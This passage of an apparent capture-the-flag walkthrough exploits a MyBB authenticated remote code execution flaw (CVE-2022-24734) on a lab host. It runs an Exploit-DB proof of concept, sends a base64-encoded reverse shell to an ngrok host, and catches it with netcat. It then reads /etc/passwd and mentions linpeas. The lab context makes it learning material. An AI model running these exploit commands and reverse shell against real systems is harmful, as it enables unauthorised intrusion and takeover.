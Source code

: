 Now click the link page and would go to exploitdb [MyBB Remote Code Execution 1.829](https://www.exploit-db.com/exploits/50924) . There showed POC code for exploit and gain remote access by Remote Code Execution . The exploit have CVE numbers is CVE-2022-24734 . So save POC code as python and run it . This POC are Authenticated Remote Code Execution that mean we'll need admin user pass to exploit Remote Code Execution . So now we have the user pass so we can exploit now , Let's do now

```
└─# python3 b.py --username mybb --password 7RdFdK8sqcrWWhkaCF --host "http://test.htb/secretpage" --cmd id  
[+] Login successful!
[*] Adding a malicious settings...
[+] Malicious post settings accepted!
[+] Result: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Yes !! We have revshell as www-data user now we try revshell

`python3 b.py --username mybb --password 7RdFdK8sqcrWWhkaCF --host "http://test.htb/secretpage" --cmd "echo "c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTg0OTYgMD4mMQ==" | base64 -d | bash"`

This code for revshell 

"c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTg0OTYgMD4mMQ==" this is our payload you need encode this to as base64 and change to your IP and PORT



```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40184
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Revshell has been connected !! now we'll try get user access we need find name of user password or priv8 keys . Let's do now

```
$ cat /etc/passwd | grep /home
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
admin:x:1001:1002::/home/admin:/bin/sh
```

Now i've tried read registered users in /etc/passwd and there have 2 users only is `john` and `admin` now i'll try using linpeas to find sensitive data file 

![](2024-02-13-22-05-45.png)
